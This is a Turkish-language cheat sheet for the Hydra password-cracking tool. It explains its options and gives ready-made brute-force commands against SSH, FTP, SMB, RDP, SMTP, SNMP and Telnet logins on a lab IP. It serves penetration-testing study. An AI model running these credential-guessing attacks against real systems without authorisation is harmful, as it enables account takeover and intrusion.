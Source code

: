 # HydraCheatSheet-TR
Hedef IP adresimizin 10.0.2.15 Olduğunu varsayalım

# Parametreler

| Parametre | Örnek Kullanım |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| hydra -l : Kullanıcı adını bildiğimiz kısımlarda bu parametreyi kullanırız kullanıcı adını elimizle girmemizi sağlar                                                                                                    | hydra -l admin                              |
| hydra -L : Kullanıcı adlarının bulunduğu wordlist'i girmemizi sağlar                                                                       | hydra -L /home/kali/Desktop/users.txt       |
| hydra -P : Şifrelerin bulunduğu wordlist'i girmemizi sağlar                                                                              | hydra -P /usr/share/wordlists/rockyou.txt      |
| hydra -V : Denenen kullanıcı adı ve şifrelerin terminalden kamasını sağlar                                                                         | hydra -l admin -P /usr/share/wordlist/rockyou.txt 10.0.2.15 ssh -V |
| hydra -f : Kullanıcı adı ve parola uyuşuyorsa saldırıyı durdurup size bulunan sonucu gösterir                                                                                         |   hydra -L usernames.txt -P passwords.txt 10.0.2.15 smb -V -f        |
| hydra -t 4 : Aynı anda kaç tane deneme yapılacağını belirtmek için kullanılır                                                                         |  hydra -l administrator -P /usr/share/wordlists/rockyou.txt 10.0.2.15 smb -t 4 -f -V                               |
| hydra -s : Salddıracağımız port normalden farklı bir port numarasında çalşışıyorsa bu parametre o port numarasını vermemizi sağlar                                                                                         | hydra -L usernames.txt -P passwords.txt 10.0.2.15 smb -s 50 -V -f                              |
| hydra -R : Eğer ki Hydra saldırı yaparken Ctrl+c Tuş kombinasyonunu kullanıp işlem durdurulmuşsa, işlemi devam ettirmek için -R Pprametresini kullanırız                                                                               | hydra -R    |
| hydra -o : xml, txt formatında çıktı almak için kullanılır                                                                                |Hydra –l msfadmin –o ~/ilk.xml –P pass.txt  ftp://10.0.2.15 |

# Örnek Saldırı Komutları

| Komut | Tanım |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| hydra -P password-file.txt -v 10.0.2.15 snmp                                                                                                    | SNMP portuna saldırır                      |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -V 10.0.2.15 ftp                                                                       | FTP portuna saldırır       |
| hydra -l root -P passwords.txt -f ssh://10.0.2.15 -V                                                                               |   SSH portuna saldırır         |
| hydra -L users.txt -P /home/kali/passwords.txt 10.0.2.15 smtp -V -f                                                                         | SMTP Portuna saldırır |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.0.2.15                                                           | RDP Portuna saldırır     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 10.0.2.15 smb                                                             | SMB Portuna saldırır             |
| hydra -l root -P passwords.txt 10.0.2.15 telnet | Telnet portuna saldırır |
